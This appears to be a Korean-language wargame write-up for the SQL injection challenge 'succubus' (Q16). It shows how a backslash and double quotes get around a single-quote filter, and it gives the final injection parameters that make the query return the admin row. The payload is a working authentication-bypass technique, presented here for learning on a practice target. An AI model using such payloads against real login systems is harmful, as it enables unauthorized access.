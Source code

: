 ## Q16. succubus _ 싱글쿼터 우회
<img src="/photo/prob_16.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: ' <br> 문제 사항: 쿼리문 참으로 만들기
### 해결책

```
싱글쿼터가 제한됨
=> 문자열을 탈출 X
=> 상당함 어려움을 겪음
=> 싱글쿼터 우회 방법에 대해 조사함
=> 백슬래시(\)에 대해 알게됨
=> 뒤의 싱글쿼터 문자열 처리함
=> \' and pw= 문자열
```
```diff
# 현재 쿼리문: where id='\' and pw=''
```
```
id='\ and' pw=' 는 거짓
=> 뒤에 OR 조건후 참으로 만들면 됨
=> id='admin'으로 참을 만듦
but. 싱글쿼터 제한됨
=> 더블쿼터 사용
```
```
해결 쿼리문: where id='\' and pw='|| id="admin"#'
```
### CERT <br> ?id=\&&pw=||%20id="admin"%23

### 느낀점
```diff
+ 싱글쿼터 우회 방법에 대해 알게 되었다.
+ 1. 백슬래시(\) 사용 : 뒤의 싱글쿼터 문자열로 인식시킴
+ 2. 더블 쿼터("") 사용

- 싱글쿼터가 제한되어서 어려웠다.
```
